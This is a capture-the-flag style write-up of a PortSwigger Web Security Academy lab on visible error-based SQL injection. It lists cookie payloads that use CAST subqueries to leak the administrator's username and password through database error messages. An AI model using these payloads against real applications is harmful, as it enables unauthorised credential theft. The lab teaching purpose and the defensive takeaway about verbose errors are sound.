




# Lab 13: Visible Error-Based SQL Injection

**Platform:** PortSwigger Web Security Academy

## What's going on here

Every blind lab so far had to infer data one bit at a time — a message, an HTTP status code. This one skips the guessing entirely. The app's error messages are verbose enough to print raw data directly into the response, which means the database can be tricked into leaking values through its own error text.

## 🎯 Target

Leak the administrator's password directly through an error message.

## The bypass

**Confirming the injection point and error verbosity:**

TrackingId=ogAZZfxtOKUELbuJ'

The error didn't just say "something broke" — it echoed back the actual SQL query, cookie value included, and named the exact problem: an unclosed string literal.

**Fixing the syntax to confirm control over the query:**

TrackingId=ogAZZfxtOKUELbuJ'--

No error — commenting out the rest made the query valid again.

**Building toward a data leak — casting a subquery to int:**

TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--

New error: the `AND` condition needed to be boolean. Fixed with a comparison:

TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--

Valid again — confirmed the CAST trick works as a vehicle for injecting any subquery.

**Swapping in real data — and hitting a character limit:**

TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--

The cookie's original value was eating into the character budget, truncating the comment characters off the end. Solved by just deleting the original tracking value entirely:

TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--

That produced a new database-generated error — the query ran, but returned more than one row. Fixed with `LIMIT 1`:

TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--

**The actual leak:**

The error came back as:

ERROR: invalid input syntax for type integer: "administrator"

The database tried to cast a string into an integer, failed, and printed the string it choked on — straight into the error message. That's `administrator`, the first username in the table, handed over for free.

Same trick, one column over, leaks the password:

TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

## Result

The administrator's password came back embedded in a type-cast error message. Logged in immediately.

## Takeaway

A type mismatch error can be turned into a data exfiltration channel almost by accident — cast anything to the wrong type and many databases will print the offending value straight into the error. No blind inference, no Intruder, no waiting on hundreds of requests. Verbose errors like this are exactly why production apps should never expose raw database error messages to users.

---

Errors just handed over plaintext data directly. The last blind technique left is the slowest but most universal one — no message, no error, no status code difference, just how long the server takes to respond: **[Lab 14 — Blind SQL Injection with Time Delays](lab-14-time-delays.md)**.
